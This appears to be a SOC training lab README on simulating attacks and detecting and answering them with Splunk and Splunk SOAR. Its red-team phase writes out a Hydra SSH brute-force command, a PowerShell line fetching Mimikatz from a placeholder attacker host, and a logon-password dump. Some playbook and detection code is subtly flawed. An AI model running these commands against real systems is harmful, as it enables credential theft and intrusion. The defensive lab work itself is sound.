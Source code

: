 # *SOC Engineer Project: Simulated Attack & Automated Response with Splunk SOAR*

## **🛠️ Phase 1: Set Up the SOC Lab (Environment Preparation)**  

### **1. Install Splunk on Ubuntu**  
1. Download & install Splunk:  
   ```bash
   wget -O splunk.tgz https://download.splunk.com/products/splunk/releases/9.0.0/linux/splunk-9.0.0-Linux-x86_64.tgz
   tar -xvzf splunk.tgz
   cd splunk/bin
   ./splunk start --accept-license
   ```  
2. Set Splunk to start automatically:  
   ```bash
   sudo ./splunk enable boot-start
   ```  
3. Open Splunk Web UI:  
   - Go to `http://localhost:8000`  
   - Log in with default credentials (admin:changeme)  

### **2. Install Splunk SOAR (Phantom) on Ubuntu**  
1. Download & install SOAR:  
   ```bash
   wget -O splunk-soar.tgz https://download.splunk.com/products/phantom/releases/5.5.0/splunk-soar-5.5.0.tgz
   tar -xvzf splunk-soar.tgz
   cd splunk-soar
   sudo ./install.sh
   ```  
2. Start SOAR:  
   ```bash
   sudo systemctl start phantom
   ```  
3. Open SOAR Web UI:  
   - Go to `https://<your-ip>:9999`  
   - Set up an admin account  

### **3. Connect Splunk to SOAR**  
1. In Splunk:  
   - **Go to:** Settings → Data Inputs → **Splunk App for SOAR Export**  
   - Add Splunk SOAR’s **IP** and enable event forwarding  

---

## **🔴 Phase 2: Simulating a Cyber Attack (Red Team)**  

### **1. Install Attack Tools on Ubuntu (Attacker Machine)**  
```bash
sudo apt update && sudo apt install -y metasploit-framework nmap hydra
```

### **2. Simulate a Brute Force Attack on SSH**  
1. Run **Hydra** to brute-force SSH login:  
   ```bash
   hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://<TARGET_IP>
   ```
2. **Expected Behavior:**  
   - Logs of failed SSH login attempts appear in `/var/log/auth.log`  
   - Splunk will collect these logs  

### **3. Simulate Credential Dumping (Mimikatz) on Windows (If available)**  
1. Download & execute Mimikatz:  
   ```powershell
   Invoke-WebRequest -Uri "http://attacker-ip/mimikatz.exe" -OutFile "C:\Windows\Temp\mimikatz.exe"
   .\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
   ```
2. **Expected Behavior:**  
   - **Splunk detects Mimikatz execution** (`EventCode 4104`)  

---

## **🔵 Phase 3: Detecting Attacks in Splunk (Blue Team)**  

### **1. Detect SSH Brute Force (Failed Logins)**  
1. Open Splunk **Search & Reporting**  
2. Run this **Splunk SPL query**:  
   ```spl
   index=linux_logs source="/var/log/auth.log" "Failed password"
   | stats count by user, src_ip
   | where count > 5
   ```
3. **Expected Outcome:**  
   - Displays **attacker IP addresses** that failed to log in **5+ times**  

### **2. Detect Credential Dumping (Mimikatz Execution)**  
```spl
index=wineventlog EventCode=4104 ScriptBlockText="*Invoke-Mimikatz*"
```
**Expected Outcome:**  
- Shows logs where **Mimikatz was executed on a Windows machine**  

---

## **🤖 Phase 4: Automate Response with Splunk SOAR**  

### **1. Create a Playbook to Block Brute Force Attackers**  
1. **Go to:** Splunk SOAR → Playbooks → **Create New Playbook**  
2. **Add these steps:**  
   - Extract the **attacker’s IP** from Splunk logs  
   - Block the IP in **iptables (Linux firewall)**  

3. **Python Script for the Playbook:**  
```python
import os

def block_ip(ip):
    command = f"sudo iptables -A INPUT -s {ip} -j DROP"
    os.system(command)
    return f"Blocked IP: {ip}"

def on_start(container):
    ip = container.get('sourceAddress')
    if ip:
        return block_ip(ip)
```
4. **Save & Activate the Playbook**  

### **2. Create a Playbook to Isolate Compromised Systems**  
1. **Go to:** Splunk SOAR → Playbooks → **Create New Playbook**  
2. **Steps:**  
   - Detect **Mimikatz execution**  
   - **Isolate** the compromised host by cutting off its network access  

3. **Python Script for the Playbook:**  
```python
def isolate_host(host_ip):
    command = f"sudo iptables -A INPUT -s {host_ip} -j DROP"
    os.system(command)
    return f"Isolated Host: {host_ip}"
```
4. **Save & Activate the Playbook**  

---

## **📊 Phase 5: Incident Response Dashboard & Report**  

### **1. Create a Splunk Dashboard**
1. **Go to:** Splunk Web UI → Dashboards → **Create New Dashboard**  
2. Add these **panels**:  
   - **Live Attack Map:**  
     ```spl
     index=linux_logs source="/var/log/auth.log" "Failed password"
     | stats count by src_ip
     ```
   - **SOAR Automated Responses:**  
     ```spl
     index=phantom action="block ip"
     ```

### **2. Generate an Incident Response Report**
- **Include:**  
  ✅ Attack simulation details  
  ✅ Detected events in Splunk  
  ✅ Automated SOAR responses  
  ✅ Dashboard screenshots  

---

## **🎯 Expected Outcome & Deliverables**
✅ **SOC Lab Setup** with **Splunk + Splunk SOAR**  
✅ **Simulated Attacks** (Brute Force, Credential Dumping)  
✅ **Threat Detection in Splunk**  
✅ **Automated Incident Response** (Block attacker IPs, Isolate compromised hosts)  
✅ **Splunk Dashboard for monitoring attacks & responses**  
✅ **Incident Report** with attack logs & automated response actions  

---

## **🚀 Next Steps & Enhancements**
- Expand attack simulation with **ransomware, lateral movement, or phishing**  
- Integrate **Slack or Email alerts** for real-time notifications  
- Add **Machine Learning in Splunk** for anomaly detection  

Would you like a **customized report template** for documenting your findings? 🚀
